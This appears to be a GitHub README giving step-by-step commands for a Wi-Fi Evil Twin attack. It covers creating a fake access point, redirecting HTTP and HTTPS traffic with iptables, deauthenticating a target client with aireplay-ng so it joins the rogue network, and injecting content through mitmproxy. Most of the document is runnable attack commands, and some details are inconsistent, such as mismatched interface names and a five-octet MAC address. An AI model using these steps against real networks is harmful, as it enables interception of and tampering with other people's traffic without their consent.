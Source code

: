 
# Rundown

These instructions will show how to perform a full Evil Twin Attack.

These steps will involve performing the following:
- Creating a Fake Access Point (AP)
- Deauthentication Attack
- HTTP downgrade
- Traffic Injection

The example will flip any website the user goes to.

# Requirements
https://zsecurity.org/wp-content/uploads/2020/08/fapCommands.txt

Use an up-to-date Kali Linux Installation.

`apt-get update -y && apt-get upgrade -y`

Creating the AP will require the following packages:
- hostapd (creates the access point)
- dnsmasq (DHCP service)
- dsniff (provides `dnsspoof`)

Manipulating web contents will be done using the following packages:
- bettercap (sniffs traffic and execute MITM attacks)
- SSLStrip (bypasses HTTPS encryption and HSTS)

Ensure the following files are in the same directory,
and that the related interface and ssid have been provided
inside the files.
- hostapd.conf
- dnsmasq.conf

NOTE: when assigning the interfaces, if the interface is `wlan0`,
then the assignment must be `interface=wlan0mon`.

The ssid is just the name of the Wifi (or access point) to be displayed.


# Instructions

Open a root or privileged terminal.
It is assumed from here on that all commands are
executed with privileges, or as the root user.

Alternatively, you may execute the commands on a regular
terminal by prefixing all the following commands with `sudo`.

Ex.
**sudo** airmon-ng check

## Enable monitor mode on wifi interface to be used
The interface will be referred to as `wlan1`.

`airmon-ng start wlan1`

This will create temporarily create a new interface wlan1**mon**.
We will be referring to interface using this new name.

## Route Table and Gateway

```
ifconfig wlan1mon up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

## Internet

This next step can be skipped if you do not need to give the
connecting computers internet access.

If you do, this step will require an additional interface
that is connected to the internet.

For this example, that interface will be referred to as `wlan0`,
but the interface can be specified as a wireless card too.

This step modifies the firewall of the machine temporarily
(the changes will be deleted on reboot) to allow connecting
machines to have internet access.
Commands to undo the following changes will be provided.

There are generally two methods of sharing internet:
by bridged network or Network Address Translation (NAT).

A bridged network will cause connecting computers to appear to
access the same **interface** and **subnet** that's used by the host computer.
This is more permissive, and generally not secure.

A good NAT setup (with ip forwarding/masquerading and DHCP service)
will put connecting computers to a dedicated subnet and data from/to
that subnet is translated accordingly, similar to how a router connects
a client to the internet.

In these instructions, we will be setting up a NAT.

Run the following commands:

```
iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan1mon -j ACCEPT
iptables --table nat --append PREROUTING -i wlan1mon -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables --table nat --append PREROUTING -i wlan1mon -p tcp --dport 443 -j REDIRECT --to-port 8080
echo 1 > /proc/sys/net/ipv4/ip_forward
```

To undo these commands:
```
iptables --table nat --delete POSTROUTING --out-interface wlan0 -j MASQUERADE
iptables --delete FORWARD --in-interface wlan1mon -j ACCEPT
iptables --table nat --delete PREROUTING -i wlan1mon -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables --table nat --delete PREROUTING -i wlan1mon -p tcp --dport 443 -j REDIRECT --to-port 8080
echo 0 > /proc/sys/net/ipv4/ip_forward
```

## Creating Access Point

Start each service on its own (root, or run with privileges using `sudo`)
terminal.

```
hostapd hostapd.conf
dnsmasq -C dnsmasq.conf
dnsspoof -i wlp4s0mon # didnt run this but it worked anyways
```

## Deauthenticating Client
https://charlesreid1.com/wiki/Evil_Twin/Setup
https://xerosploit.readthedocs.io/en/latest/proxying/http.html

We need to first locate the MAC address of the target client.
This will require using the MAC address of the `Good Twin` our
host is replicating.

Assume in this case that the Good Twin's MAC addr is: AA:BB:CC:DD:EE

```
airodump-ng -d AA:BB:CC:DD:EE wlp4s0
```

You should eventually see the client, and their MAC Address.
In this example, we will assume that address to be EE:DD:CC:BB:AA

This next step will use that information to kick the target client
out of the Good Twin.

```
aireplay-ng -0 1 -a AA:BB:CC:DD:EE -c EE:DD:CC:BB:AA wlp4s0
```

Assuming the fake access point is setup accordingly, this process
should cause the target client to automatically connect to that AP
instead of the Good Twin.

MISSING SSL stripping.


## Traffic Injection
https://charlesreid1.com/wiki/MITM/Traffic_Injection

Our example will perform an HTML Injection that flips the web content
the user is trying to view.

```
mitmproxy --set tls_version_client_min=SSL3 --mode transparent --showhost -s flip.py

```

